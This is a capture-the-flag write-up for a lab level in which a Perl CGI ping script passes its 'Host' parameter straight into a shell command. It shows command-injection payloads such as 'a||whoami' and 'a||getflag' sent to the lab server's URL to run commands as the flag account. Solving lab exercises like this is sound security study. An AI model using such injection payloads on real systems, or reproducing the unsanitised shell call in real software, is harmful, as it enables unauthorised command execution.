 # level07

## Challenge Info
The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server.

```
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

## Solution

First i tried to execute arbitrary code through the param "host", and i successfully did it but it executed as level07 (we want flag07) which does not provided anything usefull

tried the following
```
./index.cgi Host="a || whoami #"
(...)
unknown host a
level07
```

Now, and since this a web application, accessing it from the browser should also be possible, but the port is unknown yet.

checking the thttpd.conf file we can see that it runs on port 7007 and that, after initialization, it executes the commands as <b>flag07</b> which is what we want. 

```
http://192.168.1.142:7007/index.cgi?Host=a||whoami

result: flag07

```

## Flag

```
http://192.168.1.142:7007/index.cgi?Host=a||getflag

result: You have successfully executed getflag on a target account
```